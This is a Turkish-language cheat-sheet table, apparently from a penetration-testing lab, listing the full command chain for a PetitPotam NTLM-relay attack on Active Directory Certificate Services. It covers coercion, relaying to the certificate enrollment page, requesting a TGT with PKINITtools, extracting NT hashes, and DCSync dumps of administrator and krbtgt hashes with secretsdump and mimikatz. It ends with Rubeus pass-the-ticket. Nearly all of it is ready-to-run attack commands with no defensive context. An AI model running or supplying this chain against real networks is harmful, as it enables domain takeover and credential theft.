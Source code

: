 | Komut | Açıklama | Kullanıcı | Hedef | Notlar |
| --- | --- | --- | --- | --- |
| `git clone https://github.com/topotam/PetitPotam.git` | PetitPotam exploit kodunu indirim | Linux Kullanıcı | - | Git kullanılarak yapılır. |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5` | PetitPotam exploit kodunu çalıştırın | Linux Kullanıcı | Hedef (Domain Controller) | Kendi IP adresinizi belirtin. |
| `sudo ntlmrelayx.py -debug -smb2support --target http://target-domain.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | NTLM relay oluşturmak için Impacket aracını çalıştırın | Linux Kullanıcı | Hedef (CA Sunucu) | Sunucu sertifika kayıt URL'sini belirtin. |
| `python3 /opt/PKINITtools/gettgtpkinit.py target-domain.LOCAL/TARGET-DC01\$ -pfx-base64 <base64 certificate> = dc01.ccache` | TGT bileti almak için Impacket aracını çalıştırın | Linux Kullanıcı | Domain Controller | Base64 sertifika ve ccache dosyası oluşturulur. |
| `klist` | Ccache dosyasının içeriğini görüntüle | Linux Kullanıcı | - | Kerberos bilet bilgilerini gösterir. |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 target-domain/TARGET-DC01$` | NTLM hash değerleri almak | Linux Kullanıcı | Domain Controller | TGS istekleri gönderilir ve hash değerleri alınır. |
| `secretsdump.py -just-dc-user target-domain/administrator -k -no-pass "TARGET-DC01$"@TARGET-DC01.target-domain.local` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Kullanıcı | Domain Controller | DCSync saldırısı ve TGT bileti kullanılır. |
| `secretsdump.py -just-dc-user target-domain/administrator "TARGET-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Kullanıcı | Domain Controller | DCSync saldırısı ve yakalanan hash değeri kullanılır. |
| `.\Rubeus.exe asktgt /user:TARGET-DC01$ /<base64 certificate>=/ptt` | Pass-the-ticket saldırısı yapmak | Windows Kullanıcı | Domain Controller | Makine hesabı kullanılarak TGT bileti alınır. |
| `mimikatz # lsadump::dcsync /user:target-domain\krbtgt` | DCSync saldırısı yapmak | Windows Kullanıcı | Domain Controller | Mimikatz kullanılarak DCSync saldırısı yapılır. |
